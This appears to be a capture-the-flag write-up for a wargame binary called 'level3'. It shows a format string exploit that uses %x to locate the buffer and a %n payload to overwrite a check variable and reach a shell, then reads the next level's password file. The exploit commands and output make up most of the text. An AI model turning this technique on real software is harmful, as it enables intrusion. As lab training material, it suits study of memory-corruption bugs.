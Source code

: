 We can write in a buffer that will be printed with `printf`, and we know about format string exploit. \
Here are the first few steps to exploit a format string outside of gdb:
```shell
$ # find where our buffer is written in memory:
$ echo "AAAA %x %x %x %x" | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141

$ # we know we need to write '64' at address '0x804988c', so we can use the `%n` modifier with 64 bytes before in the string to write to the address:
$ python -c 'print "\x8c\x98\x04\x08" + "\x90" * 60 + "%4$n"' > /tmp/exploit
                    |_ write 4b (addr)   |_ write 60 bytes

$ # the binary will execute system if the address 0x804988c contains "64", as we need to pipe into the binary we still need to keep stdin open to inject commands or the shell will exit prematurely:
$ cat /tmp/exploit - | ./level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

